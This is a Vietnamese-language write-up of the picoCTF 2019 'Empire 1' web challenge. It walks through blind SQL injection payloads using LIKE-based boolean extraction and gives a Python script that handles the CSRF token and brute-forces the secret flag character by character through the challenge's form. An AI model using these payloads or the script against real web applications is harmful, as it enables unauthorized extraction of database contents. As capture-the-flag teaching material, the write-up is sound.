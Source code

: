#### Empire 1 ([Link](https://2019shell1.picoctf.com/problem/49726/))

-  Nói ra thì đây là 1 bài khá khó chịu. Mình muốn giải bài này theo 2 cách

- Cách 1 thì là cách mình làm lấy flag trong thời gian giải còn hiện hành. Nói ra thì cách này khá là hãm, không đi theo đúng hướng đề đưa ra. *View source* lên thấy cái *csrf_token* thì là thấy nguời ra đề không muốn ta dùng tool nào để giải. Bắt buộc phải *dump* tay ra flag luôn. Tuy nhiên mình không tìm ra được kỹ thuật *dump* tay để ra flag luôn. Đành phải vượt qua *csrf_token* và dùng kỹ thuật *blind sql* để giải bài này. Tuy hãm nhưng ra được flag là ok rồi

- Cách 2 là cách dễ hơn khi đi tham khảo vài tiền bối trong clb. Cái này thuộc dạng *insert*, chỉ cần *select* để *dump* data ra là được. Nói sơ qua thì ta cần *insert* 1 biến vào trong *database*, rồi nó trả về kết quả ở chỗ khác. Giờ ta cần nối được chuỗi giá trị ta nhập vô với chuỗi đã *insert* trước đó để ra flag

- Cách 2 này thì thời điểm này mình chưa viết wu, do chưa hiểu kỹ loại *insert* này. Tạm thời tại thời điểm này mình chỉ trình bày cách 1

- OK, cách nào thì cũng là cách, ra flag là được. Bắt đầu chiến thôi

- Thử 1 số payload trước để cảm nhận, cuối cùng thì đây là payload đầu tiên mình nhận được kết quả theo ý muốn

  - Payload: `' OR 'admin' OR '`

- Phân tích payload 1 tý: Theo cảm nhận ban đầu của mình thì nó chỉ xuất ra các giá trị *boolean*, như payload trên nó trả về 0, tức là sai. Payload gắn vô query thì nó sẽ tựa tựa như thế này

  - `... WHERE '' OR 'admin' OR ''`
  - *Rỗng OR chữ OR rỗng* thì trả về false
  - Có thể *rỗng OR none OR rỗng* sẽ trả về none

- Giờ thì *fuzzing*  *columns* với *table* của nó dựa vào hint của đề. Không có 2 cái này thì chịu. Có thể tìm ra nhưng nó hơi mệt

- Sau 1 hồi *fuzzing* 1 hồi thì mình cũng đoán ra được *column* là *secret* và *table* là *user*

- OK, payload là:

  - `' OR (SELECT secret FROM user WHERE secret LIKE 'a%' LIMIT 1) OR '`

- Phân tích ra thì `LIKE` dùng để so sánh ký tự mình đoán, ở đây là `a`, `%` đại diện cho các ký tự phía sau

  - Nếu điều kiện đúng, query chạy, túc là nó sẽ *select* ra được 1 ký tự của *secret* và nó trở về kiểu *Rỗng OR chữ OR rỗng* thì trả về false
  - Nếu điều kiện sai, query không chạy, lúc đó nó sẽ là giá trị none và nó trở về kiểu *rỗng OR none OR rỗng* sẽ trả về none

- Tuy nhiên để viết ra 1 cái tool thì khá mệt. Ta cần lấy cookie của acc đã lập áp vào. Viết code lấy *csrf_token*  để xác thực. Phải qua vài lần gửi *requests* nên nó khá là lâu

- Đây là tool của mình:

  ```python
  import sys, requests, re
  from string import *
  
  char = ascii_lowercase + digits
  
  url = 'https://2019shell1.picoctf.com/problem/49726/'
  
  cookie = {
  	'session' : '.eJwlj1tqAzEMAO_i73zo6ZVymcWyZBoCLewmX6V3z0IPMMPMb9vXUedXu7-Od93a_sh2b-URIWCG4QvCQzS6GywkkEplHiFiApQVOlVrgMwyF45kRDPi8tURkNKZcUGPJctIS9gYNs2uPi6lBQnX1AE9UVhFvbzd2jyPtb9-nvV99SBRWYw5tPNGKDp9aZ-Vq3xuNTmJYMtxce-zjv8Jbn8fFI89_g.XaRLzA.8ImPk0CSbDfuM-jOpgByTnqbK_8'
  }
  
  url_add = url + 'add_item'
  
  url_list = url + 'list_items'
  
  listpass = ''
  
  flag = 0
  
  while True:
  
  	for x in char:
  		print('trying with: ', listpass+x)
  
  		response = requests.get(url_add, cookies = cookie)
  
  		fin = re.findall('type="hidden" value="(.*)">', response.text)
  
  		payload = "' or (SELECT secret FROM user WHERE secret LIKE 'picoCTF{"+listpass+x+"%}' limit 1) or '"
  
  		data = {
  			'csrf_token' : fin[0],
  			'item' : payload,
  			'submit' : 'Create'
  		}
  
  		response = requests.post(url_add, cookies = cookie, data =data)
  
  		response = requests.get(url_list, cookies = cookie)
  
  		fin = re.findall('Very Urgent:</strong>(.*)', response.text)
  
  		if fin[len(fin)-1] == ' 0':
  			listpass += x
  			print('sucess with: ', listpass)
  			flag = 0
  			break
  		else:
  			flag += 1
          if flag == 36:
              print('Success with secret: ', listpass)
              sys.exit()
  ```

- Payload mình dùng có yếu điểm là khi gặp ký tự `_` nó sẽ tự động set đúng, nên mình loại nó ra khỏi danh sách các ký tự có thể, đến khi nó hết chạy tức là sau đó là ký tự `_`

- Mạn phép không giải thích cái tool, có thể vừa xem vừa *research* để xem cách mình đã dùng để viết nên tool này

- OK, sau 1 hồi xài cái cách vãi chưởng này thì cũng ra được flag. Mạn phép không show, các bạn nên tự làm dựa theo hướng dẫn của mình. Thực ra mình lười chạy lại để lấy flag, với nó cũng khá là lâu :v
